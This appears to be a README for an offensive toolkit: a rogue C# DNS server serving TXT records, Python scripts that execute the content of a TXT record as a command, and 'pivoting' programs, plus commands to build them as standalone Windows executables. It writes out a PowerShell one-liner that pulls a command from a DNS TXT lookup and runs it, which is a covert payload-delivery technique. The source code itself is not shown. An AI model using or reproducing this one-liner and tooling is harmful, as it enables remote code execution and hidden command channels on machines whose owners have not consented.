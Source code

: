 ## DNS-Server.cs ##
- Install-Package ARSoft.Tools.Net (NuGet)
- Execute: "powershell . (nslookup -q=txt example.com 127.0.0.1)[-1]"\
  The locahohost IP has to be given to differentiate between the "real" domain and the locally running one.

  - DNS-Server.cs:\
    Simply a rogue DNS-Server

  - DNS-Server_1.cs:\
    Rogue DNS-Server with multiple TXT entries

-- Build an executable from the Developer Console within Visual studio

https://learn.microsoft.com/en-us/dotnet/core/deploying/single-file/overview?tabs=cli
- Build:
  <code>
  C:\Users\Noone\Desktop\app\ConsoleApp2>dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:PublishDir=.\publish --force
  </code>
- Build standalone:
  <code>
  dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:IncludeNativeLibrariesForSelfExtract=true -p:PublishDir=.\publish --force
  </code>

## nshookup.py (needs dnspython) ##
- nshookup.py:\
  Python implemetation of nslookup. Only works with one TXT entry.
  Gets the entry and executes the content between the two "" as command.
  Command: python nshookup.py domain.com

- nshookup_1.py:\
  Hardcoded domain:
  Command: python nshookup.py

## pivoting.cs ##
- pivoting_1.cs:\
  No checks, just go for it
- pivoting_2.cs:\
  Checks if at least a part of a certain string is present before executing the first step
- pivoting_3.cs:\
  Defines the string as mandatory to execute the first step
